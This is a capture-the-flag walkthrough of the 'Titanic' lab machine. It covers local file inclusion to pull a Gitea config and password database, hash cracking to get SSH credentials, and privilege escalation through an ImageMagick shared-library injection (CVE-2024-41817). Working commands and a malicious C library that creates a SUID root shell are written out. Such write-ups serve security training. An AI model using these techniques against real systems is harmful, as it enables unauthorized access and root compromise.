Titanic
Titanic was an easy-difficulty Linux box that presented only two open ports: SSH on 22 and HTTP on 80. Initial reconnaissance revealed a travel booking website with limited functionality, leading me to focus on the booking form where I discovered a local file inclusion vulnerability. By intercepting the booking request and modifying the filename parameter from a legitimate file to /etc/passwd, I confirmed LFI access to the filesystem.
Subdomain enumeration using ffuf revealed a hidden Gitea instance at dev.titanic.htb. Leveraging the LFI vulnerability, I extracted Gitea's configuration file (app.ini) and SQLite database from /home/developer/gitea/data/gitea/. The database contained password hashes for two users, which I converted to a crackable format using the gitea2hashcat tool. Successfully cracking the developer's hash revealed the credentials developer:25282528, providing SSH access to the system.
Privilege escalation required identifying a hidden root cronjob that executed ImageMagick's identify command on JPG files in /opt/app/static/assets/images/ every minute. The system ran ImageMagick version 7.0.11-35, which was vulnerable to CVE-2024-41817 - a shared library injection vulnerability. I crafted a malicious shared library with a constructor function that copied /bin/bash to /tmp/rootbash with SUID permissions. After placing the library in the monitored directory, the root cronjob executed it during the next cycle, creating the SUID binary. Executing /tmp/rootbash -p preserved the elevated privileges, granting root access and completing the machine.
User flag

Nmap scan reveals only 2 ports. SSH on 22 and a website on 80.
LFi via the booking form
There are a few buttons on the top right, but none of them work aside from the "book now" button.
The "book your trip" button in the middle of the screen has the same functionality.
A form popped up. I'll fill it in with random data, then I'll turn on intercept in burpsuite to capture the request.

It downloads a json file. Seeing a raw filename makes me think about local file inclusion, so I'll try swapping that file to /etc/passwd within the request.

This resulted in a new file being downloaded.

Which, after viewing it, is revealed to be the passwd file, confirming the LFI vulnerability.

Fuzzing for subdomains
I have the LFI, but I don't really know what is there to grab. I'll fuzz for subdomains to check for any services that may be running on the box.
I ran this ffuf command.
ffuf -u http://titanic.htb -H "Host: FUZZ.titanic.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 20

And it found a dev subdomain. I'll check it out right away.

Grabbing the Gitea database via LFI

There are two repos in Gitea. I'll check docker-config first.
In /docker-config/gitea, I found this docker-compose.yml file.
version: '3'
services:
gitea:
image: gitea/gitea
container_name: gitea
ports:
- "127.0.0.1:3000:3000"
- "127.0.0.1:2222:22" # Optional for SSH access
volumes:
- /home/developer/gitea/data:/data # Replace with your path
environment:
- USER_UID=1000
- USER_GID=1000
restart: always
THe Gitea files will be located somewhere within this directory. I searched for the default location of Gitea's configuration files, and found something interesting.

In order to get to the app.ini file, I should try the LFI with /home/developer/gitea/data/gitea/conf/app.ini.

I've successfully grabbed the .ini file, which reveals where the database is located.
I'll do the exact same thing, this time targetting the database at /home/developer/gitea/data/gitea/gitea.db.

This succeeded, but I cannot download it via burpsuite like earlier. I'll use curl instead to grab it directly.
curl -X GET http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db -o gitea.db

However, these hashes are not in a crackable format right away.

They are scattered all over the entries. I could convert and rebuild them into a crackable format manually, but there is also a gitea2hashcat.py script that will make this way quicker.
https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271

I'll paste both of these into a separate file for cracking. I'm expecting the developer hash to crack, because they're the user I saw in the passwd file earlier.

developer | 25282528
I'll try to SSH into the box with these credentials.

Root flag
I started off with some manual enumeration of directories like /var, /opt and /etc. I also took a look at the crontab, but there was nothing there.
Creating a SUID bash via image magick vulnerability

I found a single script in the /opt/scripts directory.
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
It searches for any .jpg images in the /opt/app/static/assets/images/ directory, then uses magick to identify then, finally inserting the results into the log file.
While I could not see any cronjobs being active, I did notice something interesting in the directory.

Metadata.log is modified every minute, which could mean that there is a highly-privileged cronjob running as root, which I cannot see in normal circumstances. I could use pspy to see it, but the changing modification date of the logfile basically confirms that the cronjob is indeed running.
I'll turn my attention to magick.

Since I have a version now, I'll check the web for any CVEs related to magick.
https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8
I found this one rather quickly. There are two potential ways to exploit this, but only one will work here. Since I cannot control the command within the cronjob, root will not run any .xml files.
I can create a malicious shared library in that very directory. I'll make it execute a command to create a SUID bash binary in /tmp.
# Contents of my shared library file
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash");
exit(0);
}
I transfered it into the images directory via curl from my python server, and waited unti the metadata.log file modification date changed.

I'll execute the rootbash with the -p flag. Otherwise, the rights won't be preserved and I'll get a shell as developer.

Rooted!